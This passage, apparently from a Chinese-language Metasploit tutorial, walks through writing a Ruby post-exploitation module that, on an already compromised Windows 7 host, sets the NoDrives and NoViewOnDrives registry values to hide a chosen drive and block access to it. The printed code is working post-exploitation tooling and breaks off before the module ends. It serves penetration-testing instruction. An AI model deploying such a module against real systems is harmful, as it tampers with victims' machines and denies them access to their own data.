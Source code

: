 现在我们已经看到了模块构建的基础知识，我们可以进一步尝试构建一个后渗透模块。这里需要记住的一点是，只有在成功攻击目标后才能运行后渗透模块。

因此，让我们从一个简单的驱动禁用模块开始，该模块将禁用目标系统上选择的驱动器，该系统是 Windows 7 操作系统。让我们看看模块的代码，如下所示：

```
require 'rex' 
require 'msf/core/post/windows/registry' 
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  def initialize 
    super( 
        'Name'          => 'Drive Disabler', 
        'Description'   => 'This Modules Hides and Restrict Access to a Drive', 
        'License'       => MSF_LICENSE, 
        'Author'        => 'Nipun Jaswal' 
      ) 
    register_options( 
      [ 
        OptString.new('DriveName', [ true, 'Please SET the Drive Letter' ]) 
      ]) 
  end     
```

我们以与之前模块相同的方式开始。我们添加了所有需要的库的路径，以便在这个后渗透模块中使用。让我们看看下表中的任何新的包含和它们的用法：

| **包含语句** | **路径** | **用法** |
| --- | --- | --- |
| `Msf::Post::Windows::Registry` | `lib/msf/core/post/windows/registry.rb` | 这个库将使我们能够使用 Ruby Mixins 轻松地进行注册表操作函数。 |

接下来，我们将模块的类型定义为`Post`，用于后渗透。在继续代码时，我们在`initialize`方法中描述了模块的必要信息。我们可以始终定义`register_options`来定义我们的自定义选项以与模块一起使用。在这里，我们使用`OptString.new`将`DriveName`描述为字符串数据类型。定义新选项需要两个参数，即`required`和`description`。我们将`required`的值设置为`true`，因为我们需要一个驱动器号来启动隐藏和禁用过程。因此，将其设置为`true`将不允许模块运行，除非为其分配一个值。接下来，我们定义了新添加的`DriveName`选项的描述。

在继续代码的下一部分之前，让我们看看在这个模块中我们将要使用的重要函数是什么：

| **函数** | **库文件** | **用法** |
| --- | --- | --- |
| `meterpreter_registry_key_exist` | `lib/msf/core/post/windows/registry.rb` | 检查注册表中是否存在特定的键 |
| `registry_createkey` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表键 |
| `meterpreter_registry_setvaldata` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表值 |

让我们看看模块的剩余部分：

```
def run 
drive_int = drive_string(datastore['DriveName']) 
key1="HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" 

exists = meterpreter_registry_key_exist?(key1) 
if not exists 
print_error("Key Doesn't Exist, Creating Key!") 
registry_createkey(key1) 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
else 
print_good("Key Exist, Skipping and Creating Values") 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
end 
```